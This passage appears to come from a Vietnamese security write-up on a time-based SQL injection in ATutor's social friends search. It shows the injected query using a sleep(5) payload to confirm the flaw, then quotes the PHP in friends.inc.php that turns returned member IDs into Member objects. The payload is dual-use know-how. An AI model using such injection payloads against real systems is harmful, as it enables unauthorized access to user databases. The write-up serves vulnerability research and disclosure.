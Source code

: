 Và câu query bị exploit sẽ trông như thế này
```sql
SELECT member_id FROM AT_members WHERE (first_name LIKE '%%')AND/**/sleep(5)#
```

Nghĩa là: Tìm id của tất cả các member và ngủ 5s với mỗi member tìm thấy. Trong `AT_members` chúng ta hiện có 2 member, nếu query này thành công thì response sẽ trả về sau 10s.

![sqli-confirm.png](images/sqli-confirm.png)

Như vậy ta đã xác nhận được chỗ này bị SQL Injection. Thế nhưng câu SQL này chỉ lấy ra `member_id`, và `member_id` này sau đó sẽ được dùng để tạo object `Member`, rồi chính các object này sẽ được trả về trong response cho user.

**`/mods/_standard/social/lib/friends.inc.php`**  
```php
$rows_friends = queryDB($sql, array(), '', FALSE);

if(count($rows_friends) > 0){
    foreach($rows_friends as $row){
        if ($row['member_id']==$_SESSION['member_id']){
            $this_id = $row['friend_id'];
        } else {
            $this_id = $row['member_id'];
        }
        $temp =& $my_friends[$this_id];	
        $temp['obj'] = new Member($this_id);
        if ($searchMyFriends){
            $temp['added'] = 1;
        }
    }
}
```
